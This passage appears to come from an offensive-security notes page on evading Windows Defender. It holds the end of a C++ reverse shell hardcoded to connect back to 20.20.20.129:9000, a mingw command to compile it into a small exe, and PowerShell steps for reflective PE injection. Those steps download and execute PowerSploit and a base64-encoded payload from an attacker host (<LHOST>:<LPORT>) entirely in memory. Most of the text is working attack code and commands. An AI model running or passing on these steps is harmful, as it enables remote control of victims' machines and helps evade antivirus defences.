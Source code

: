 ```C++
    if (argc == 3) {
        int port  = atoi(argv[2]); //Converting port in Char datatype to Integer format
        RunShell(argv[1], port);
    }
    else {
        char host[] = "20.20.20.129";
        int port = 9000;
        RunShell(host, port);
    }
    return 0;
}
```
### Step #3: compile to exe like below (size of exe should be around 13 Kb) (you can use `upx` to shrink it as well)
```bash
i686-w64-mingw32-g++ rev.cpp -o revcpp.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

---

## Reflective PE Injection: didn't work against defender (2/8/2022)
### Source: [video by adam chester](https://www.youtube.com/watch?v=byMBx4q-vYo)

### Step #1: obtain the `Invoke-RelfectivePEInjection.ps1` from [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) and inject it into memory:
```powershell
IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/Invoke-RelfectivePEInjection.ps1')
```
### Step #2: convert the exe to `base64`. here's how it can be done using PowerShell:
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes('path\to\exe')) > exe.bin
```
### Step #3: retrive the base64 and store it in a variable
```powershell
$b = IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/exe.bin')
```
### Step #4: get the binary back from base64 format and save it into a variable
```powershell
$c = [System.Convert]::FromBase64String($b)
```
### Step #5: call `Invoke-RelfectivePEInjection` and specify the flag `-PEBytes` with the `$c` variable as an argument
```powershell
Invoke-RelfectivePEInjection -PEBytes $c
```

---
